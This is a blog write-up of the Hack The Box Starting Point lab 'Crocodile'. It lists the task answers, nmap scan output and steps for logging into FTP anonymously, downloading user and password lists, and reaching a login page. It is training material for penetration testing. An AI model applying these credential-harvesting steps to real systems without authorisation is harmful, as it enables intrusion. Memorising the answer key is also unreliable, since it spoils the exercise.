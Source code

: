 ```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Crocodile"
uuid: e1267e42-2f3c-11ed-9e81-c2af19d2d6e3
version: 87
created: Thu, 08 Sep 2022 06:10:03 +0000
tags:
- y-type/resource
- z-class/career/pentest
- x-status/publish/writeup
---
```


**TASK 1**

**What nmap scanning switch employs the use of default scripts during a scan?** -sC

**TASK 2**

**What service version is found to be running on port 21?** vsftpd 3.0.3

**TASK 3**

**What FTP code is returned to us for the "Anonymous FTP login allowed" message?**230

**TASK 4**

**What command can we use to download the files we find on the FTP server?** get

**TASK 5**

**What is one of the higher-privilege sounding usernames in the list we retrieved?** admin

**TASK 6**

**What version of Apache HTTP Server is running on the target host?** 2.4.41

**TASK 7**

**What is the name of a handy web site analysis plug-in we can install in our browser?** Wappalyzer

**TASK 8**

**What switch can we use with gobuster to specify we are looking for specific filetypes?** -x

**TASK 9**

**What file have we found that can provide us a foothold on the target?** login.php

**SUBMIT FLAG**

Step:

ftp $ip

>anonymous

>get allowed.userlist

>get allowed.userlist.passwd

>exit

cat allowed.userlist

cat allowed.userlist.passwd

http://$ip/login.php

---

Note:

[Crocodile.pdf](/attachments/Crocodile.pdf)

```
$> nmap -sC -sV $ip
Nmap scan report for 10.129.25.81
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.33
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```